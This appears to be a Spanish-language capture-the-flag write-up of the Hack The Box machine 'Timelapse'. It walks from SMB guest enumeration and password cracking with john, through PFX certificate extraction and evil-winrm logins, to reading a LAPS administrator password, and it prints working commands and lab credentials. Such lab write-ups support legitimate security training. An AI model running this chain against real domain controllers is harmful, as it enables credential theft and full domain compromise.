







```zsh
ping -c 3 10.10.11.152   

PING 10.10.11.152 (10.10.11.152) 56(84) bytes of data.
64 bytes from 10.10.11.152: icmp_seq=1 ttl=127 time=62.1 ms
64 bytes from 10.10.11.152: icmp_seq=2 ttl=127 time=147 ms
64 bytes from 10.10.11.152: icmp_seq=3 ttl=127 time=356 ms
```

## Recon 

```zsh
sudo nmap -p- --open --min-rate 5000 -v -n -Pn 10.10.11.152 -oG allPorts
nmap -sCV -p 53,88,135,139,389,445,464,593,636,3268,3269,5986,9389,49667,49673,49674,49693,49725 10.10.11.152 -oN targeted
```

```zsh
# Nmap 7.95 scan initiated Sun Aug 10 03:58:31 2025 as: /usr/lib/nmap/nmap --privileged -sCV -p 53,88,135,139,389,445,464,593,636,3268,3269,5986,9389,49667,49673,49674,49693,49725 -oN targeted 10.10.11.152
Nmap scan report for 10.10.11.152
Host is up (0.073s latency).

PORT      STATE SERVICE           VERSION
53/tcp    open  domain            Simple DNS Plus
88/tcp    open  kerberos-sec      Microsoft Windows Kerberos (server time: 2025-08-10 15:58:37Z)
135/tcp   open  msrpc             Microsoft Windows RPC
139/tcp   open  netbios-ssn       Microsoft Windows netbios-ssn
389/tcp   open  ldap              Microsoft Windows Active Directory LDAP (Domain: timelapse.htb0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http        Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ldapssl?
3268/tcp  open  ldap              Microsoft Windows Active Directory LDAP (Domain: timelapse.htb0., Site: Default-First-Site-Name)
3269/tcp  open  globalcatLDAPssl?
5986/tcp  open  ssl/http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
| ssl-cert: Subject: commonName=dc01.timelapse.htb
| Not valid before: 2021-10-25T14:05:29
|_Not valid after:  2022-10-25T14:25:29
| tls-alpn: 
|_  http/1.1
|_ssl-date: 2025-08-10T16:00:08+00:00; +7h59m58s from scanner time.
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf            .NET Message Framing
49667/tcp open  msrpc             Microsoft Windows RPC
49673/tcp open  ncacn_http        Microsoft Windows RPC over HTTP 1.0
49674/tcp open  msrpc             Microsoft Windows RPC
49693/tcp open  msrpc             Microsoft Windows RPC
49725/tcp open  msrpc             Microsoft Windows RPC
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2025-08-10T15:59:30
|_  start_date: N/A
|_clock-skew: mean: 7h59m58s, deviation: 0s, median: 7h59m57s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Aug 10 04:00:12 2025 -- 1 IP address (1 host up) scanned in 100.71 seconds
```

- El puerto 5985 está configurados para **exigir conexiones HTTPS** en WinRM, por lo cual para establecer una conexcion usaremos la opcion ``-S``.

```zsh
 echo "10.10.11.152 timelapse.htb" | sudo tee -a /etc/hosts
```

```zsh
nxc smb 10.10.11.152                                               

SMB         10.10.11.152    445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:timelapse.htb) (signing:True) (SMBv1:False)
```

```zsh
nxc smb 10.10.11.152 -u 'guest' -p '' --shares

SMB         10.10.11.152    445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:timelapse.htb) (signing:True) (SMBv1:False) 
SMB         10.10.11.152    445    DC01             [+] timelapse.htb\guest: 
SMB         10.10.11.152    445    DC01             [*] Enumerated shares
SMB         10.10.11.152    445    DC01             Share           Permissions     Remark
SMB         10.10.11.152    445    DC01             -----           -----------     ------
SMB         10.10.11.152    445    DC01             ADMIN$                          Remote Admin
SMB         10.10.11.152    445    DC01             C$                              Default share
SMB         10.10.11.152    445    DC01             IPC$            READ            Remote IPC
SMB         10.10.11.152    445    DC01             NETLOGON                        Logon server share 
SMB         10.10.11.152    445    DC01             Shares          READ            
SMB         10.10.11.152    445    DC01             SYSVOL                          Logon server share 
```

- User Enumeration

```zsh
nxc smb 10.10.11.152 -u 'guest' -p '' --rid-brute
```

```
DnsAdmins
DnsUpdateProxy
thecybergeek
payl0ad
legacyy
sinfulz
babywyrm
DB01$
WEB01$
DEV01$
LAPS_Readers
Development
HelpDesk
svc_deploy
```

### Kerbrute

```zsh
kerbrute userenum --dc 10.10.11.152 -d timelapse.htb users
```




- Archivos Compartidos

```zsh
smbclient //10.10.11.152/Shares -U 'guest'
```

```zsh
smb: \> dir
  .                                   D        0  Mon Oct 25 11:39:15 2021
  ..                                  D        0  Mon Oct 25 11:39:15 2021
  Dev                                 D        0  Mon Oct 25 15:40:06 2021
  HelpDesk                            D        0  Mon Oct 25 11:48:42 2021
```


`winrm_backup.zip                    A     2611  Mon Oct 25 11:46:42 2021`


```zsh
7z l winrm_backup.zip

--
Path = winrm_backup.zip
Type = zip
Physical Size = 2611

   Date      Time    Attr         Size   Compressed  Name
------------------- ----- ------------ ------------  ------------------------
2021-10-25 10:21:20 .....         2555         2405  legacyy_dev_auth.pfx
------------------- ----- ------------ ------------  ------------------------
2021-10-25 10:21:20               2555         2405  1 files
```


```zsh
zip2john winrm_backup.zip
```



```zsh
john hash -w=/usr/share/wordlists/rockyou.txt        
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 6 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status

supremelegacy    (winrm_backup.zip/legacyy_dev_auth.pfx)     

1g 0:00:00:00 DONE (2025-08-10 12:28) 4.000g/s 13910Kp/s 13910Kc/s 13910KC/s surkerior..supalove
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

```zsh
pfx2john legacyy_dev_auth.pfx > legacy.hash
```

```zsh
john legacy.hash -w=/usr/share/wordlists/rockyou.txt           

Using default input encoding: UTF-8
Loaded 1 password hash (pfx, (.pfx, .p12) [PKCS#12 PBE (SHA1/SHA2) 128/128 AVX 4x])
Cost 1 (iteration count) is 2000 for all loaded hashes
Cost 2 (mac-type [1:SHA1 224:SHA224 256:SHA256 384:SHA384 512:SHA512]) is 1 for all loaded hashes
Will run 6 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status

thuglegacy       (legacyy_dev_auth.pfx)     

1g 0:00:00:35 DONE (2025-08-10 12:43) 0.02801g/s 90503p/s 90503c/s 90503C/s thugways..thugers1
Use the "--show" option to display all of the cracked passwords reliably
```

## PFX Extracted

Abrimos el archivo legacyy_dev_auth.pfx junto con la contraseña que obtuvimos.



Teniendo un RSA Key podemos extaer la llave privada.

```zsh
openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -out keyrpiv.pem
```

`thuglegacy`

Ahora lo mismo para el certificado

```zsh
openssl pkcs12 -in legacyy_dev_auth.pfx -clcerts -out legacyy.crt
```

Desencriptamos la llave privada

```zsh
openssl rsa -in keypriv.pem -out key.pem
```

## Legacyy User

```zsh
evil-winrm --ssl -i 10.10.11.152 -k key.pem -c legacyy.crt
```



## PowerShell History (PSReadLine)

```powershell
C:\users\legacyy\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine
```



```powershell
svc_deploy
E3R$Q62^12p7PLlC%KWaxuaV
```

```zsh
evil-winrm -i 10.10.11.152 -u svc_deploy -p 'E3R$Q62^12p7PLlC%KWaxuaV' -S
```

```powershell
net user svc_deploy

User name                    svc_deploy
Full Name                    svc_deploy
Comment
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            10/25/2021 12:12:37 PM
Password expires             Never
Password changeable          10/26/2021 12:12:37 PM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   10/25/2021 12:25:53 PM

Logon hours allowed          All

Local Group Memberships      *Remote Management Use
Global Group memberships     *LAPS_Readers         *Domain Users
```

https://www.thehacker.recipes/ad/movement/dacl/readlapspassword

El atacante puede entonces leer la contraseña de LAPS de la cuenta del equipo (es decir, la contraseña del administrador local del equipo).

```powershell
Get-ADComputer -filter {ms-mcs-admpwdexpirationtime -like '*'} -prop 'ms-mcs-admpwd','ms-mcs-admpwdexpirationtime'
```



```
,n2L]8D/#,[136{C0WU;{c3o
```

```zsh
evil-winrm -i 10.10.11.152 -u Administrator -p ',n2L]8D/#,[136{C0WU;{c3o' -S
```



